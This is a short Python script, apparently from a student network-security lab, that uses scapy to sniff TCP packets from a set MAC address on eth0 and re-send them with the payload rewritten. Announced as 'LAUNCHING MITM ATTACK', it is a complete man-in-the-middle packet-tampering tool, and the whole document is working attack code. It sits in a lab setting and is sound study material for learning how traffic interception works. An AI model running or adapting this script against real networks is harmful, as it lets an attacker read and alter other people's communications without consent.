 #!/usr/bin/env python3
from scapy.all import *

print("LAUNCHING MITM ATTACK.........")

def spoof_pkt(pkt):
    newpkt = IP(bytes(pkt[IP]))
    del(newpkt.chksum)
    del(newpkt[TCP].payload)
    del(newpkt[TCP].chksum)

    if pkt[TCP].payload:
        data = pkt[TCP].payload.load
        print("*** %s, length: %d" % (data, len(data)))

        # Replace a pattern
        newdata = data.replace(b'shivam', b'mavihs')

        send(newpkt/newdata)
    else:
        send(newpkt)

f = 'tcp and ether src 02:42:0a:69:00:05'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
